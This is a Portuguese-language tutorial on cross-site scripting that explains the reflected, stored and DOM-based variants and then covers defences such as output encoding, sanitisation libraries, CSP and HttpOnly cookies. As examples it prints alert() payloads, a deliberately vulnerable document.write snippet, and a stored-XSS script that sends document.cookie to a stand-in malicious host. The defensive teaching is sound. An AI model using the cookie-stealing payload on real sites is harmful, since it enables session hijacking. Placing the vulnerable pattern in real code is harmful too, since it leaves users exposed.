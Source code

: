 # Cross-Site Scripting (XSS): Entendendo e Prevenindo

## O que é Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) é uma vulnerabilidade de segurança que permite a atacantes injetar scripts maliciosos (geralmente JavaScript) em páginas web visualizadas por outros usuários. Quando um usuário acessa uma página comprometida, o navegador executa o script malicioso, que pode roubar cookies de sessão, redirecionar o usuário para sites maliciosos, realizar ações em nome do usuário ou até mesmo reescrever o conteúdo da página.

## Como funciona o ataque?

Existem três tipos principais de ataques XSS:

### 1. XSS Refletido (Non-Persistent XSS)

O script malicioso é "refletido" de volta para o usuário a partir de uma requisição HTTP. O atacante envia um link malicioso para a vítima, e quando a vítima clica no link, o script é executado no navegador dela. O script não é armazenado no servidor.

**Exemplo:**

Um site de busca vulnerável que exibe o termo de busca diretamente na página:

`https://exemplo.com/busca?q=<script>alert('XSS');</script>`

Se o site não sanitizar a entrada `q`, o script `alert('XSS');` será executado no navegador do usuário.

### 2. XSS Armazenado (Persistent XSS)

O script malicioso é permanentemente armazenado no servidor da aplicação (por exemplo, em um banco de dados, fórum, comentários de blog). Quando outros usuários acessam a página que contém o script armazenado, ele é recuperado do servidor e executado em seus navegadores. Este é o tipo mais perigoso de XSS, pois não requer interação direta da vítima com um link malicioso.

**Exemplo:**

Um atacante posta um comentário em um blog com o seguinte conteúdo:

```html
<script>document.location='http://site-malicioso.com/roubar_cookies.php?cookie=' + document.cookie;</script>
```

Quando outros usuários visualizam o comentário, o script é executado e seus cookies de sessão são enviados para o site malicioso.

### 3. XSS Baseado em DOM (DOM-based XSS)

O ataque ocorre inteiramente no lado do cliente, manipulando o DOM (Document Object Model) da página. O script malicioso não é enviado ao servidor. A vulnerabilidade reside no código JavaScript do lado do cliente que manipula dados controlados pelo atacante de forma insegura.

**Exemplo:**

Um script JavaScript que lê um parâmetro da URL e o insere diretamente no DOM:

```javascript
<script>
  var lang = location.hash.substring(1);
  document.write('Bem-vindo, ' + lang);
</script>
```

Se a URL for `https://exemplo.com/#<script>alert('XSS');</script>`, o script será executado.

## Como proteger sua aplicação?

### 1. Sanitização de Entrada

Nunca confie na entrada do usuário. Valide e sanitize todos os dados de entrada antes de processá-los ou exibi-los. Isso significa remover ou escapar caracteres especiais que podem ser interpretados como código executável.

*   **HTML Encoding:** Converta caracteres como `<`, `>`, `&`, `"`, `'` para suas entidades HTML correspondentes (`&lt;`, `&gt;`, `&amp;`, `&quot;`, `&#x27;`). Isso garante que o navegador interprete esses caracteres como texto e não como tags HTML ou código JavaScript.
*   **Bibliotecas de Sanitização:** Utilize bibliotecas de sanitização de HTML seguras e bem testadas para remover tags e atributos perigosos de conteúdo gerado pelo usuário. Exemplos incluem OWASP ESAPI, DOMPurify (para JavaScript no cliente) ou bibliotecas específicas para sua linguagem de programação/framework.

### 2. Contextual Output Encoding

O tipo de encoding (codificação) deve ser aplicado com base no contexto onde os dados serão exibidos. Por exemplo:

*   **HTML Context:** Use HTML entity encoding.
*   **JavaScript Context:** Use JavaScript string literal encoding (escapar aspas, barras invertidas, etc.).
*   **URL Context:** Use URL encoding.

### 3. Content Security Policy (CSP)

Uma Content Security Policy (CSP) é uma camada adicional de segurança que ajuda a mitigar ataques XSS. Ela permite que você especifique quais fontes de conteúdo (scripts, folhas de estilo, imagens, etc.) são permitidas para serem carregadas e executadas em sua página web. Isso pode impedir que scripts maliciosos injetados sejam executados, mesmo que uma vulnerabilidade XSS exista.

### 4. HttpOnly Flag para Cookies

Defina o atributo `HttpOnly` para cookies de sessão. Isso impede que scripts do lado do cliente (incluindo scripts XSS) acessem esses cookies. Se um atacante conseguir injetar um script, ele não conseguirá roubar o cookie de sessão do usuário, mitigando o impacto de um ataque de roubo de sessão.

### 5. Validação de Entrada no Lado do Servidor

Sempre realize a validação de entrada no lado do servidor, mesmo que você também a faça no lado do cliente. A validação do lado do cliente pode ser facilmente contornada por um atacante.

## Conclusão

XSS é uma vulnerabilidade persistente e perigosa. A chave para a proteção é tratar toda a entrada do usuário como não confiável e aplicar a sanitização e codificação de saída apropriadas para o contexto. A implementação de uma Content Security Policy e o uso da flag HttpOnly para cookies são medidas adicionais importantes para fortalecer a segurança da sua aplicação.

